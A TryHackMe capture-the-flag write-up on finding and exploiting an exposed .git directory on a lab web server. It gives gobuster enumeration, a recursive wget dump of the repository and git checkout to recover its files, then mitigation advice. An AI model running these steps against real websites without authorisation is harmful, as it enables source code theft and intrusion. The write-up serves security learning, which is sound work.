




# 🏨 Room 404 — TryHackMe Write-Up


---

## 📌 Overview

The **Room 404** challenge simulates a real-world web application misconfiguration where sensitive development artifacts are unintentionally exposed.

The scenario hints at hidden endpoints and overlooked services — particularly a web service running on **port 8080**. The goal is to enumerate, identify weaknesses, and extract the flag.

---

## 🎯 Objectives

* Perform directory enumeration
* Identify exposed sensitive resources
* Exploit Git repository leakage
* Retrieve the flag

---

## 🔍 Enumeration

We begin by scanning the target using **Gobuster**.

### Command

```bash
gobuster dir -u http://<TARGET_IP>:8080 -w /usr/share/wordlists/wordlists/wordlist.txt
```

### Key Findings

* `/.git` → Exposed Git repository ⚠️
* `/app.js` → Frontend JavaScript

📸 *Screenshot:*


---

## 🧠 Analysis

### app.js

The file contains only a minimal frontend stub:

```javascript
const API = "/api/guest";
```

No sensitive data is exposed here, indicating the vulnerability lies deeper.

---

## 💥 Exploitation

### Step 1: Access Git Directory

```
http://<TARGET_IP>:8080/.git
```

📸 *Screenshot:*


---

### Step 2: Dump the Repository

```bash
wget -r -np -R "index.html*" http://<TARGET_IP>:8080/.git/
```

📸 *Screenshot:*


---

### Step 3: Rebuild the Project

```bash
cd <TARGET_IP>:8080
git checkout -- .
```

---

### Step 4: Discover the Flag

```bash
cat README.md
```

📸 *Screenshot:*


---

## 🚩 Flag

```
Try yourself and get the flag
```

---

## 📚 Lessons Learned

* Directory enumeration reveals hidden attack surfaces
* Exposed `.git` directories can leak full source code
* Attackers can reconstruct repositories using simple tools
* Misconfigurations are a major real-world risk

---

## 🛡️ Mitigation

* Block access to `.git` directories via server config
* Never deploy development artifacts to production
* Perform security audits before deployment

---

## 📦 Tools Used

* Gobuster
* Wget
* Git

---

## 📈 Key Takeaway

Even simple misconfigurations like exposing a `.git` directory can lead to **complete application compromise**. Proper deployment hygiene is critical in web security.

---

## 👨‍💻 Author

Sudharsan Chandran
Cybersecurity Enthusiast | CTF Player

---

## ⭐ If you found this useful

Give the repo a ⭐ and follow for more write-ups!
